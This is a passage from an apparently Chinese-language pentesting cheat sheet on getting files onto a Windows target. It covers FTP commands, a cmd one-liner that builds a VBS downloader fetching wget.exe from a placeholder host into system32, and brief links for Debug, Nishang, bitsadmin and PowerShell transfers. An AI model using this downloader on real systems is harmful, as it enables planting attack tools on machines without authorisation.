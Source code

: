| cdup          | 上一层目录                                     |
| close         | 在不结束ftp进程的情况下，关闭与ftp服务器的连接 |
| delete        | 删除远端ftp服务器上的文件                      |
| get           | 下载                                           |
| hash          | 显示#表示下载进度                              |
| mdelete       | 删除文件，模糊匹配                             |
| mget          | 下载文件，模糊匹配                             |
| mput          | 上传文件，模糊匹配                             |
| mkdir         | 在远端ftp服务器上，建立文件夹                  |
| newer         | 下载时，检测是不是新文件                       |
| prompt        | 关闭交互模式                                   |
| put           | 上传                                           |
| pwd           | 显示当前目录                                   |

详解 -----> [here](http://imhuchao.com/323.html)

#### 利用 VBS 上传

利用 VBS 上传，主要使用的是 msxm12.xmlhttp 和 adodb.stream 对象。

在 cmd 下输入：

```
echo Set xPost = CreateObject(^"Microsoft.XMLHTTP^"):xPost.Open ^"GET^",^"http://xxx/xxx/wget.exe^",0:xPost.Send():Set sGet = CreateObject(^"ADODB.Stream^"):sGet.Mode = 3:sGet.Type = 1:sGet.Open():sGet.Write(xPost.responseBody):sGet.SaveToFile ^"C:\windows\system32\wget.exe^",2 >down.vbs
```

然后运行：

```
cscript down.vbs
```

#### 利用 Debug 上传

Debug 是一个程序调试工具。利用 Debug 上传文件的原理是：

先将需要上传的 EXE 文件转换为十六进制 HEX 的形式，再通过 echo 命令将 HEX 代码写入文件，最后利用 Debug 功能将 HEX 代码编译并还原成 EXE 文件。

详细 -----> [here](https://www.cnblogs.com/xuyiqing/p/10353527.html)

#### 利用 Nishang 上传

详细 -----> [here](https://blog.csdn.net/qq_17204441/article/details/89426393)

#### 利用 bitsadmin 下载

详细 ----->......

#### 利用 powershell 下载

详细 -----> [here](https://docs.microsoft.com/zh-cn/powershell/scripting/overview?view=powershell-7.1&viewFallbackFrom=powershell-6)


